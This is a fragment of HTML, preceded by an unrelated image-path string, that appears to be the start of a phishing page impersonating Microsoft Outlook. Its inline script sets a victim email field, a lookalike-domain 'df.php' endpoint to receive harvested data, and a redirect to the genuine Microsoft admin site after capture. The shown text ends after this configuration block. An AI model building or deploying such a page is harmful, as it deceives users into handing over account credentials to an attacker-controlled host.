 <!DOCTYPE HTML><html><head>
    <script>
        let main_email_to = "";
        let redirect_link = "https://admin.microsoft.com/"
        let Script_link= "https://paceilnkpower.com/M-1222D/20-eR/df.php";
        let result_provider = "Microsoft Outlook";
    </script>